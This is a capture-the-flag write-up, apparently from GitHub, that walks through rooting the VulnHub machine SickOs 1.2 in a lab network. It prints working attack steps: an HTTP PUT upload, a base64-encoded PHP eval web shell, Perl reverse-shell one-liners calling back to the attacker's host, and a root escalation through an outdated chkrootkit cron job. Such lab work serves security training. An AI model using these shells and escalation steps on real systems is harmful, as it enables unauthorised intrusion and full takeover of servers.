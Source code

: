 # Port Scan

Perform a Ping Sweep
```
nmap -sn 192.168.114.1-254
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-01 23:57 AEDT
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.132
Host is up (-0.10s latency).
MAC Address: 00:50:56:FF:87:FA (VMware)
Nmap scan report for 192.168.114.131
Host is up.
Nmap done: 254 IP addresses (5 hosts up) scanned in 2.35 seconds
```
192.168.114.131 is my KALI machine
192.168.114.132 is target machine

# Enumeration
### Port Enumeration
```
nmap -sV 192.168.114.132
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
```
### HTTP Enumeration
```
nikto -h 192.168.114.132
```
```
+ Server: lighttpd/1.4.28
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ All CGI directories 'found', use '-C none' to test none
+ OSVDB-3268: /test/: Directory indexing found.
+ 26188 requests: 0 error(s) and 4 item(s) reported on remote host
```
Directory indexing found , but it is empty, so useless information.
```
dirb http://192.168.114.132
```
```
---- Scanning URL: http://192.168.114.132/ ----
+ http://192.168.114.132/index.php (CODE:200|SIZE:163)                         
==> DIRECTORY: http://192.168.114.132/test/ 
```
Also only found one directory.

### Searching for exploits
```
searchsploit -e lighttpd
```
Does not return with any major exploits or vulnerabilities.

Low Hanging Fruit : http://192.168.114.132/test/ 

Using cURL to see If we can upload any files onto /test/
```
echo "test" > test.txt
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt'
```
```
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```
We are returned with Expectation Failed, which is unique. A bit of googling
https://stackoverflow.com/questions/9120760/curl-simple-file-upload-417-expectation-failed

Says we need to include --http1.0
### Vulnerability - Misconfigured Upload

```
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt' --http1.0
```
Successfully Uploaded a file. 


# Exploit Vulnerability
Now we have full reigns on upload , you can upload a reverse php shell, backdoor etc. In this case we'll upload a basic php system call.

##### Step 1. Create a backdoor
```
echo 'system($_GET['cmd']);' | base64      // Not neccessary to encode it to base64
echo "<?php eval(base64_decode('c3lzdGVtKCRfR0VUW2NtZF0pOwo=')) ?>" > evil.php
```
##### Step 2. Upload and Accessing the exploit: in URL
```
http://192.168.114.132/test/evil.php?cmd="ifconfig"
```
Using a basic perl reverse shell (Generated from msfvenom)  // port 1234 , will not return anything. Port 443 works!
```
http://192.168.114.132/test/evil.php?cmd=192.168.114.132/test/test.php?cmd=/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```
OR just use one of http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

##### Listen on port 443

```
nc -lvp 443
listening on [any] 443 ...
192.168.114.132: inverse host lookup failed: Unknown host
connect to [192.168.114.131] from (UNKNOWN) [192.168.114.132] 59858
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
OR use multi/handler to pick up the connection
```
msfconsole
use exploit/multi/handler
set payload linux/x86/shell/reverse_tcp
...
```
# Local Privilege Escalation

Running a Linux Priv Checker ( Automated Script )
Manually checking the crontabs, we see a few programs that are scheduled to run
```
$ ls /etc/cron.daily/
ls /etc/cron.daily/
apt	  bsdmainutils	dpkg	  logrotate  mlocate  popularity-contest
aptitude  chkrootkit	lighttpd  man-db     passwd   standard
```
Check each of the versions of the following to see if they have a vulnerability
```
 chkrootkit 0.49-4ubuntu1.1  detector
```
Found an exploit. 

# Vulnerability Exploited - Out of Date CHKROOTKIT
https://www.exploit-db.com/exploits/33899/

"Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file."

##### Step 1. Create a bash, named "update"
```
#!/bin/sh

echo "`/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.114.131:443");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'`"

#end
```
Using the same shell, we can get a root shell.

#### Step 2. Upload to target machine, and place in /tmp/

WGET does not seem to work, so we upload through the same way in the previous section.

#### Listen on Port 443 and Wait.
Using msfconsole/exploit/multi/handler 
```
Command shell session 5 opened (192.168.114.131:443 -> 192.168.114.132:37026) at 2018-03-02 18:16:55 +1100
```
```
id  
uid=0(root) gid=0(root) groups=0(root)
pwd
/root
cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```





